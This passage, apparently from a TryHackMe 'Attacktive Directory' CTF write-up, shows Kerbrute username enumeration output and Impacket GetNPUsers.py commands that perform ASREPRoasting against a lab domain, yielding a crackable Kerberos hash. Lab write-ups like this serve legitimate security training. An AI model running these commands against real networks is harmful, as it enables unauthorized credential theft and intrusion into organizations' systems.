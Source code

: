 ```
2020/10/17 11:08:37 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/10/17 11:08:52 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/10/17 11:08:57 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/10/17 11:09:14 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2020/10/17 11:09:19 >  [+] VALID USERNAME:       ori@spookysec.local
2020/10/17 11:09:28 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2020/10/17 11:10:16 >  Done! Tested 100000 usernames (16 valid) in 116.694 seconds
```

`svc-admin`

3. What is the other notable account is discovered? (These should jump out at you)

`backup`

## Task 5 Exploiting Kerberos

**Introduction**

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

**Exploitation**

Impacket has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd02b080a5370b1114e15d26$9dbfc5b2a618fab698eedcb5022d7cf1a86735364938defc0f06aa73cc608748b84aa5e3735f3f8942ff12d54da014ddc485155c919c30fbc671b91b7c27a07c2c5ba6f9c4ef637812035f73642fb38d3509d61a244b16376adcb42a31feb91b24dc816b90cca74497e7fe4c8f8883ad3124005c197cccc68dcc4cc499eb462aba71b22892c6b9e9dd53339087f61ac74a20752aecbe82df48d22bd373bfda0254084c47e7046a1d26f02c062a1599f4133b93a55de6d8bcd83dfc87166ef8c53b229934249c88785628fb4012480f20556d35dace5bf67b05470f0215298d4c6d1fa2e218e8930e1f29437d390b230ef396

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/backup -request -no-pass -dc-ip 10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

`svc-admin`
